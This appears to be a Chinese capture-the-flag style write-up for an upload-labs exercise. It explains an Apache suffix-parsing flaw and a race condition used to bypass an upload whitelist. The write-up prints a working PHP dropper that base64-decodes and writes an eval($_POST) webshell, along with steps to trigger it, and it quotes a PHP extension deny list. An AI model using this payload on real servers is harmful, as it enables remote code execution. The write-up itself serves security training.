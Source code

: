     // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};

## 扩展知识

**apache解析漏洞**

在apache 1.x，2.x版本中，apache解析文件的规则是从右往左开始解析。如果无法解析后缀名，就会往左判断，直到遇到可解析的版本为止。

例如，上传test.php.7z，apache无法解析.7z，就会向左判断，将此文件解析为php文件。

## 解题方法

上传shell.php.7z文件，php会识别后缀为合法的.7z文件并上传到服务器，但是通过验证后会立即将shell.php部分重命名为时间戳＋随机数，所以php代码仍旧无法生效。

所以本题需要利用apache解析漏洞+条件竞争，上传生成小马的1.php.7z文件，白名单验证会将其当做合法文件上传至服务器，上传后再进行重命名。我们利用条件竞争，在重命名前尝试打开文件，这样apache就会解析这个文件 ，接着由于解析漏洞生成木马文件

完整解题步骤：

创建1.php.7z文件

<?php
$a='PD9waHAgQGV2YWwoJF9QT1NUWyJhIl0pOz8+';
$myfile=fopen("shell.php","w");
 fwrite($myfile,base64_decode($a));
 fclose($myfile);
?> 

上传、抓包并发送到攻击模块，并抓包靶机IP/uploads/1.php.7z同样发送到攻击模块。

二者均设置null payload，无限重复攻击，等到服务器中出现shell.php即上传成功

# pass-19

## 代码分析

$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
